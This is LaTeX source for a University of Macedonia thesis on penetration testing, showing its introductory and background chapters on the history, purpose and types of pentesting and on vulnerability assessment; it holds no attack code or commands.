\documentclass[11pt,a4paper]{book}

\usepackage[iso-8859-7]{inputenc}
\usepackage{fancyhdr}

\pagestyle{fancyplain}

\renewcommand{\chaptermark}[1]{\markboth{\thechapter\ #1}{}}
\renewcommand{\sectionmark}[1]{\markright{\thesection\ #1}}

\fancyhead[LO]{\slshape \fontsize{8}{11} \nouppercase{\rightmark}}
\fancyhead[RE]{\slshape \fontsize{8}{11} \nouppercase{\leftmark}}
\fancyhead[LE,RO]{\fontsize{8}{11} \thepage}
\fancyhead[C]{}
\fancyfoot[C]{}

\usepackage[greek,english]{babel}
\usepackage{setspace}
\usepackage{array}
\usepackage{epsfig}
\usepackage{latexsym}
\usepackage{amsfonts}
\usepackage{xspace}
\usepackage{graphicx}
\usepackage{subfigure}
\usepackage{amssymb}
\usepackage{amsmath}
\usepackage{adjustbox}
\usepackage{enumerate}
\usepackage{float}
\usepackage{amsthm}
\usepackage{color,soul}
\usepackage{algorithm}
\usepackage{algorithmic}

\onehalfspacing
\renewcommand{\algorithmicrequire}{\textbf{Input:}}
\renewcommand{\algorithmicensure}{\textbf{Output:}}

\usepackage{multirow}
\usepackage[normalem]{ulem}
\usepackage{listings}
\useunder{\uline}{\ul}{}


\lstset{
basicstyle=\ttfamily,
columns=flexible,
breaklines=true,
}

\usepackage{hyperref}
\usepackage{booktabs}

\begin{document}

\begin{titlepage}
	\centering
	
	{\scshape\LARGE University of Macedonia \par}
	\vspace{1cm}
	{\scshape\Large Department of Applied Informatics \par}
	\vspace{1.5cm}
	
\includegraphics[width=0.8\textwidth]{Resources/General/UOM_logo.JPG}\par\vspace{1cm}
	{\huge\bfseries Penetration Testing: Tools and Emulated Network Attacks \par}
	\vspace{2cm}
	{\Large \textit{Nikolaos Stefanidis}\par}
	\vfill
	Supervised by\par
	Assistant Professor
	{\Large Sophia Petridou\par}

	\vfill
	
	Thessaloniki, February 5, 2020
\end{titlepage}

\begin{center}
\Large \textbf{Abstract}
\end{center}

Present-day distributed computing environment where computer networks and Internet are convenient medium of communication and information exchange, security is becoming more and more of an issue. Security in computer networks and Internet have serious implication in today's dynamic work environment. With new vulnerabilities and exploits emerging rapidly, even a fully patched system or network have security flaws. There are different security measures which network/system administrator can deploy to secure the network or system, however, the best way truly to ensure that the network or system is secure, is to perform penetration testing. Penetration testing is a specialized security auditing method where a tester simulates an attack on a secured system. The goal of this is not to cause damage, but instead to identify attack surfaces, vulnerabilities, and other security weaknesses from the perspective of an attacker. Such testing can range across all aspects of a system.

We aim to provide a detailed presentation of penetration testing and its importance, while the purpose of this thesis is to research and compare the different software available for penetration testers. Also, we leverage the power of individual's code and emulate Network attack scenarios in a virtual environment. Finally, we evaluate the effectiveness of a well-written and detailed report, provided the necessary evidence.



\vspace{12em}
\hfill \textbf{Nikolaos Stefanidis}

\hfill \href{mailto:nikstef024@gmail.com}{nikstef024@gmail.com}

\hfill February, 2020


%\begin{center}
\Large \textbf{Acknowledgments}
\end{center}

\tableofcontents
\listoftables
\listoffigures

\chapter{Introduction}

Since the infancy of computers, hackers have been creatively solving problems. In the late 1950s, the MIT model railroad club was given a donation of parts, mostly old telephone equipment \cite{erickson2008}. The club's members used this equipment to rig up a complex system that allowed multiple operators to control different parts of the track by dialing in to the appropriate sections. They called this new and inventive use of telephone equipment hacking; many people consider this group to be the original hackers.

Today, the term has quite a different meaning. When people think of computer hackers, they think of computer experts who are adept at reverse engineering computer systems. They might think of malicious hackers who aspire to break into networks to destroy or steal data, or of ethical hackers who are hired to test the security of a network. Often, these ethical hackers, or penetration testers, mimic the same techniques as a malicious hacker since the best way to stop a criminal is to think the way a criminal thinks. It is not enough to install burglar alarms and fences and assume that you are safe from burglary; to effectively stop a burglar, you must predict the actions a burglar would take. Likewise, to prevent against malicious hackers, you must think like a malicious hacker. One of the best ways that companies are assessing their security against attacks is by hiring outside security firms to attempt to penetrate their networks. This is why the need for penetration testing is immense but also very simple \cite{whitaker2006}.


\section{Motivation}

Risk management is the ongoing process of identifying, assessing, and responding to risk. To manage risk, organizations should understand the likelihood that an event will occur and the potential resulting impacts. With this information, organizations can determine the acceptable level of risk for achieving their organizational objectives and can express this as their risk tolerance. Nowadays, enterprises find it difficult to protect the confidential information of clients while maintaining a public Internet presence. To mitigate risks, it is customary for companies to turn to penetration testing for vulnerability assessment. Penetration testing is the practice of a trusted third-party company attempting to compromise the computer network of an organization for the purpose of assessing its security. By emulating a live attack, executives can witness the potential of a malicious attacker gaining entry or causing harm to the data assets of that company.

Today, news of security threats or security breaches dominate headlines on a daily basis. Over the past years, we have been hearing that hacking attacks and website defacement are becoming more frequent and are happening to thousands of companies worldwide. Some of the few high profile organizations who were victims of massive network security breaches in 2018 are:
\begin{center}
\begin{itemize}

\item \textbf{Adidas}:  On June 26, Adidas became aware that an unauthorized party claims to have acquired limited data associated with certain Adidas consumers. More information is available on the official Adidas website \footnote{Adidas: \url{https://www.adidas-group.com/en/media/news-archive/press-releases/2018/adidas-alerts-certain-consumers-potential-data-security-incident/}}. 

\item \textbf{Under Armour}: About 150 million users of its nutrition-tracking app, MyFitnessPal, had been hacked. The stolen data includes account user names, email addresses and scrambled passwords for the popular MyFitnessPal mobile app and website, Under Armour said in a statement \footnote{Under Armour: \url{http://fortune.com/2018/03/29/myfitnesspal-password-under-armour-data-breach/}}.

\item \textbf{FedEx}: Thousands of FedEx customer records exposed by unsecured server. More details can be found online \footnote{FedEx: \url{https://www.usnews.com/news/world/articles/2018-02-15/thousands-of-fedex-customer-records-exposed-by-unsecured-server}}.

\item \textbf{T-Mobile}: T-Mobile cyber security staff detected the attack a short time after it began. In a statement to Motherboard, a T-Mobile spokesperson said that "less than 3\%" of the company's roughly 76 million subscribers was accessed \footnote{T-Mobile: \url{https://www.forbes.com/sites/leemathews/2018/08/24/t-mobile-hackers-swipe-data-on-2-million-subscribers/\#5cf3f8a7a523}}.

\item \textbf{British Airways}: It is thought the number of payments compromised could be up to 400,000 and British Airways confirmed hackers had obtained names, addresses, credit card numbers, expiry dates and the three-digit security codes on the backs of cards - plenty to make a fraudulent payment \footnote{British Airways: \url{https://www.telegraph.co.uk/news/2018/09/07/british-airways-hacking-customers-cancel-credit-cards-airline/}{The Telegraph}}.

\item \textbf{Facebook}: The breach was the largest in the company's 14-year history. The attackers exploited a feature in Facebook's code to gain access to user accounts and potentially take control of them \footnote{Facebook: \url{https://www.nytimes.com/2018/09/28/technology/facebook-hack-data-breach.html}}.

\item \textbf{United States Air Force}: A hacker penetrated an Air Force captain's computer to steal sensitive information about US military drones \footnote{US Air Force: \url{https://edition.cnn.com/2018/07/10/politics/us-reaper-drone-materials-hacker-theft/index.html}}.

The incidents mentioned above are just a small subset of the reported events.

\end{itemize}
\end{center}
The statistics on threats posed by hackers are sobering. A recent report by the RAND Corporation\footnote{The RAND Corporation is a nonprofit institution that helps improve policy and decision-making through research and analysis. For further information, see \url{https://www.rand.org} .} suggests that in one year as many as 65 million people in the USA alone have had their personal data breached in some way or other, and that cyber-crime generates billions of dollars in revenue each year \cite{rand2016}.

With cyber attacks becoming the norm and the advancement of technology and computers, the necessity to undertake regular vulnerability scans to identify vulnerabilities has increased and ensuring on a regular basis that the cyber controls are working is a priority to organizations and their executives. No matter how much patching an administrator or an engineer does to the environment; the systems can still be vulnerable to attack. This is where Penetration Testing comes in.

\section{Research Topics}
The scope of this thesis is to investigate and question some problem statements in the field of Penetration Testing. We examine important quality aspects of Pen-Testing like commonly used tools, community's best practices, architecture of a test and evaluation of its performance as well as reporting. The technology used consists of mostly open-source tools.
In this thesis, we explore the following research topics:
\begin{enumerate}
\item Identify the different types of Penetration Test and Document Testing Methodologies.
\item Investigate and Compare Penetration Testing tools and techniques.
\item Design and Perform Penetration Testing attacks on an Isolated Network Laboratory. 
\item Understand the importance of analysis and reporting and the necessity of those to properly translate technical findings into risk mitigation strategies that will improve security posture.
\end{enumerate}

\section{Outline}

Chapter 2 introduces the act of Penetration Testing and its origin, necessary information for understanding the fundamentals of Penetration Testing. We then proceed to explain the different types of testing and how those will benefit the general security posture of the system, along with the different methodologies and rules a tester may implement.

In Chapter 3, we investigate and present the different types of software a tester can use along with their role in the general process of testing. A comparison between the tools is presented in order to analyze and research the different features they offer.

In Chapter 4, Network-based attacks are emulated in a virtual environment. Every attack is described and then executed, with the goal of this chapter being the representation of the potential of individual's code and how they can be extended to become very powerful.

In Chapter 5, we focus on the necessity of a thorough report, where the importance of proper risk evaluation is presented to the reader. Also, a general format of reporting and key characteristics of a complete report are presented and analyzed during this chapter.

Lastly, in Chapter 6, we reiterate and summarize on the entire perspective on Penetration testing, highlight future work that can be done to further improve this thesis in different ways.

\chapter{Background}

By the mid 1960's  the popularity of online time-sharing computers created new concerns about security. It was shown that an employee could easily undermine all of the systems safeguards. By the end of the decade computer penetration became a major issue and the United States Department of Defence issued a major report on the subject. The DoD turned to Willis Ware (American Computer Pioneer) to form a task force comprised of experts from NSA, CIA, DoD, academia, and industry to assess the security risks of Computer penetration \cite{infosec2018}. From this report, government and business began to put together teams that would try to find vulnerabilities in computer networks and systems to protect the computer systems from unethical hacking or penetration. So-called tiger teams\footnote{Today, Penetration Testing teams have been renamed, from tiger teams, to red teams.}, named after specialized military teams, were formed in the late 1960s to test the ability of computer networks to resist an attack.

One of the early pioneers in penetration testing development and perhaps the leading computer penetration expert during these formative years was James P. Anderson. He worked with the NSA, RAND, and other government agencies to study system security. In his 1972 report, Anderson outlined a series of definitive steps that tiger teams could take to test systems for their ability to be penetrated and compromised. Anderson's approach included first identifying vulnerability and designing an attack on it, and then finding the weakness in the attack itself and ways to neutralize its threat. This fundamental method is still in use today.

James P. Anderson continued his research on securing computer systems during the 1970s and 1980s, with many of his publications and methods forming part of today's standard system protection.

Today, on-demand penetration testing is one of the latest methods to test a network system for ways it could be breached and information accessed. This hybrid approach to testing a network combines the manual and real-time attempts by ethical hackers to breach a system's security alongside automated tools that run checks on the system on a regular basis. 

\section{Understanding Penetration Testing}

Penetration Testing or PenTesting is a test performed on a computer network by a penetration tester or auditor for security purposes. A group of many testers is called tiger team/red team \cite{whitaker2006}. Penetration testing can be defined as a legal and authorized attempt to locate and successfully exploit computer systems for the purpose of enhancing the system's security. The process includes probing for vulnerabilities as well as providing proof of concept (POC) attacks to demonstrate the vulnerabilities are real. Such a test, involves simulating real attacks in real-time environments, encompassing a wide range of activities and variations, to assess the risk associated with potential security breaches \cite{shrestha2012}.

\section{Objectives of Penetration Testing}

\subsection{Origin of Vulnerabilities}
Penetration Testing is used to determine and detect vulnerabilities in a system. Such vulnerabilities may originate from improper system configuration, outdated components (software or hardware), lack of hardware and many other sources. The most impactful and eventually the most harmful one is human error. One of the most intriguing findings from IBM's "2014 Cyber Security Intelligence Index" is that 95 percent of all security incidents involve human error \cite{ibm2014}. It is the most common root for jeopardy since misuse of tools, unsafe transmittal of data to other, third-party or unknown entities, are some of the mistakes a person can make, willfully or not. More specifically, according to Verizon's "2013 Data Breach Investigations Report", 95 percent of those advanced and targeted on human error attacks, involved spear-phishing scams with emails containing malicious attachments that can cause malware to be downloaded onto the user's computing device \cite{verizon2013}. This gives attackers a foothold into the organization from which they can move laterally in search of valuable information, such as intellectual property.

\subsection{Penetration Testing's Purpose}
Penetration Testing involves acting as an actual attacker and performing the steps that one would take. From discovering the potential flaws of the organization's IT infrastructure, to abusing and carrying out an attack against those flaws in order to define the risk and impact of a possible exploitation. The intent of this procedure is to spot those weaknesses, narrow down security risk and prevent an attack by regulating the system's vulnerabilities and strengthening its security. Some of the most fundamental reasons to adopt and perform Penetration Tests are \cite{aicpa2018}\cite{saindane2015}:

\begin{itemize}

\item\textbf{Defining Security Posture}
\\ Even the most well managed and robust network infrastructures can be exposed to cyberattacks. Executive Management can determine to what extent an organization's vulnerabilities can potentially be exploited by hackers and the level of security their methods of protecting data provide.

\item\textbf{Improving Security of Organizations' Infrastructure}
\\Penetration testing is performed with the objective of improving the security of computer systems such as firewalls, routers and servers. Different security mechanisms like Intrusion Detection System(IDS), firewall, and cryptography are used to protect data. However, the frequency and severity of network intrusion, data theft and attacks caused by malicious code, hackers, disgruntled employees continue to increase along with the risks and costs associated with network security breaches and data theft. Penetration testing helps to address such concerns.

\item\textbf{Risk Mitigation}
\\ A well-executed penetration test provides a detailed overview of an organization's exploitable vulnerabilities and includes actionable recommendations on how a security engineer can optimize your protection levels in the short-term, mid-term and long-term. Discovered vulnerabilities are listed in order of 
\begin{enumerate}
\item how easily they can be exploited and
\item their impact on the organization in case of exploitation.
\end{enumerate}  

By following a so-called "risk-oriented prioritization" approach, information security executives will be able to prioritize these risks based on their criticality, plan their remediation efforts and allocate their security resources accordingly. For example, they may want to prioritize fixing the most critical vulnerabilities with the biggest negative impact on the organization first, and delay working on vulnerabilities that have light impact and are harder to exploit. This process will decrease risk of a possible event and its potential resulting impacts.

\item\textbf{Avoiding Data Breach}
\\A data breach is a security incident in which sensitive, protected or confidential data is copied, transmitted, viewed, stolen or used by an unauthorized entity. It is important for an organization to maintain the three security principles:
\begin{enumerate}
\item \textbf{The \textit{confidentiality} of the information.} Informational confidentiality is what comes to mind most frequently when we consider cybersecurity breaches-if an attacker is able to access private information and use it for nefarious purposes, confidentiality has been broken.
\item \textbf{The \textit{integrity} of the information.} Informational integrity refers to information in its original format that hasn't been manipulated by a bad actor.
\item \textbf{The \textit{availability} of the information.} Informational availability can be impacted by DDOS attacks. If an attacker is able to bring down a service for a period of time, it affects whether people can access the information they want or need.
\end{enumerate} 
To avoid such attacks, PenTesting assists in securing computer systems and important data, and eventually in eliminating unintentional information disclosure. 

\item\textbf{Reducing Financial Losses}
\\ Verizon's 2018 Data Breach Investigation Report shows that "76 percent of breaches were financially motivated" \cite{verizon2018}. Once security risks are considered and mitigated, cost benefits include reducing risk and exposure to internal and external threats and positioning the company to avoid potential financial loss from misuse of data, loss of data or noncompliance to policy, regulations or standards.Expenses on retrieving lost data and on recovering after a cyberattack might be tremendous since company's reputation will also be harmed.

\item\textbf{Enhance Organization's Reputation}
\\ Reputation benefits may include protecting the organization's brand and prestige, positioning the company as a trusted business partner and improving public opinion as if it considerately protects intellectual property and potential clients' sensitive data.

\end{itemize}

\section{Penetration Testing Types}

To uncover the vulnerabilities and security flaws, there are three types of Pen Testing which can be used. The type of penetration testing normally depends on the scope and the organizational wants and requirements. Following are the types of PenTesting \cite{whitaker2006}\cite{pci2015}:
\begin{itemize}
\item Black Box Test
\item White Box Test
\item Grey Box Test
\end{itemize}


\begin{figure}[ht!]
\centering

\includegraphics[width=0.9\textwidth]{Resources/General/PenTestingTypes.jpg}
\caption{Types of Penetration Testing \label{types}}
\end{figure}

\subsection{Black Box Test}
The penetration tester has no prior knowledge of a company network. There is no information given to the tester about the internal workings and the architecture of the system. As a result, this particular type of test can take a very long time to complete, so very often, the tester will rely upon the use of automated processes to completely uncover the weaknesses and vulnerabilities. This type of test is also referred to as the "trial and error" approach. For example, if it is an external black-box test, the tester might be given a website address or IP address and told to attempt to crack the website as if he were an outside malicious hacker.

The biggest advantage of this type of Penetration Testing, is that the attacker simulates the environment and the conditions of an actual attack since the test is generally conducted with the perspective of a user, not the designer.

Two major disadvantages are, firstly, this kind of test cases are difficult to design and secondly and most important, it does not cover every aspect of the security of the network and doesn't uncover every weakness.

\subsection{White Box Test}

In this type of Pentest, also known as "Clear Box Testing," the tester has complete knowledge of the internal network. The tester might be given network diagrams or a list of operating systems and applications prior to performing tests. Advantages of White Box Testing are:
\begin{itemize}
\item A White Box Test can be accomplished in a much quicker time frame when compared to a Black Box Test. 
\item Although it is not the most representative of outside attacks, it is the most accurate because it presents a worst-case scenario where the attacker has complete knowledge of the network and can be more explicit.
\item It finds the design errors that may have occurred because of the difference between logical flow of the program and the actual execution.
\end{itemize}

But, this approach also has its set of disadvantages. First, since a tester has complete knowledge, it could take more time to decide on what to focus specifically on regarding system and component testing and analysis. Secondly, to conduct this type of test, more sophisticated tools are required such as that of software code analyzers and debuggers.


\subsection{Grey Box Test}

With the Gray Box Test, both manual and automated testing processes can be utilized. A tester is usually provided partial or limited information about the internal details of the system. It can be considered as an attack by an external hacker who had gained illegitimate access to an organization's network infrastructure documents. It carries the following advantages:

\begin{itemize}
\item The tester does not require the access of source code, it is non-intrusive and unbiased.
\item No need to provide internal information about the system functions and other operation.
\item  With this particular method, there is a higher probability that more hard to find "security holes" will also be discovered as well.
\end{itemize}

\section{Vulnerability Assessment and Penetration Test}
A common misconception in the field of Computer Security, is that Penetration Testing and Vulnerability Assessment are the same functions and are used to accomplish the same goals. Unfortunately, in many cases, these two terms are incorrectly used interchangeably. This section aims to clarify differences between those two and demonstrate that both are integral components of a well-rounded vulnerability management program \cite{doshi2015}. 


\begin{description}
\item[Vulnerability Assessment] is a proactive and systematic strategy to discover vulnerabilities. The motive for vulnerability assessments is to yield lists of weaknesses, often prioritized by severity and/or business criticality.

Vulnerability assessment is achieved using scanners. It is a hybrid solution, which combines automated testing with expert analysis. It is a two step process whereas searching for vulnerabilities and reporting are the actions that consist that kind of assessments. 

\begin{figure}[ht!]
\centering

\includegraphics[width=0.7\textwidth]{Resources/Tools/VulnAssessment.jpg}
\caption{Procedure of a Vulnerability Assessment \label{VulAssessment}}
\end{figure}


\item[Penetration Testing] as described earlier, evaluates the security of a computer system or network by simulating an attack.
\end{description}


Concluding, on a Pentest, as opposed to a Vulnerability Assessment, takes a step beyond considering the testers not only discover exposures that could be used by attackers but also exploit the identified vulnerabilities, where possible, to assess what attackers might gain after a successful exploitation.

\begin{figure}[ht!]
\centering
